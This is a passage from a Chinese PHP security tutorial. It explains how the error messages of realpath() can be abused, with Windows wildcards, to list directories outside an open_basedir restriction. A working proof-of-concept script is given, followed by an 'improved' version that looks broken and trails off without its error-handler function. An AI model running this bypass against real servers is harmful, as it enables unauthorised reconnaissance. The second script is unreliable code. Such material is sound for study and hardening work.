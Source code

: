 # 0x04 realpath列举目录

**Realpath**函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。 but，在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。 所以就是利用这个特性进行猜解，考虑到效率问题，所以利用了Windows下的通配符

```php
<?php
ini_set('open_basedir', dirname(__FILE__));
printf("<b>open_basedir: %s</b><br />", ini_get('open_basedir')); //打印了当前open限制的目录
set_error_handler('isexists');
$dir = 'd:/test/';
$file = '';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';
for ($i=0; $i < strlen($chars); $i++) { 
    $file = $dir . $chars[$i] . '<><';
    realpath($file);
}
function isexists($errno, $errstr)
{
    $regexp = '/File\((.*)\) is not within/';
    preg_match($regexp, $errstr, $matches);
    if (isset($matches[1])) {
        printf("%s <br/>", $matches[1]);
    }
}
?>
```

脚本可以列出D:/test/下的文件目录，当然这个只在Windows下适用在linux下面不适用 这里还有一个缺点就是不能列出来首字母相同的文件，所以我打算改进一下p神的脚本

```php
<?php
// 设置 open_basedir 指令
ini_set('open_basedir', dirname(__FILE__));

// 打印 open_basedir 限制
echo "<b>open_basedir: " . ini_get('open_basedir') . "</b><br />";

// 定义自定义错误处理程序
set_error_handler('isexists');

// 目录和字符
$dir = 'd:/test/';
$chars = 'abcdefghijklmnopqrstuvwxyz0123456789_';

// 迭代字符
for ($i = 0; $i < strlen($chars); $i++) {
    $file = $dir . $chars[$i] . '<>';
    if (file_exists($file)) {
        // 尝试访问文件
        $realpath = realpath($file);
        if ($realpath === false) {
            // 文件无法访问
            trigger_error("File $file is not within allowed directories.", E_USER_WARNING);
        }
    }
    // 如果下一个字符的首字母与当前字符的首字母相同，则跳过
    while ($i < strlen($chars) - 1 && $chars[$i] == $chars[$i + 1]) {
        $i++;
    }
}

// 自定义错误处理程序函数
```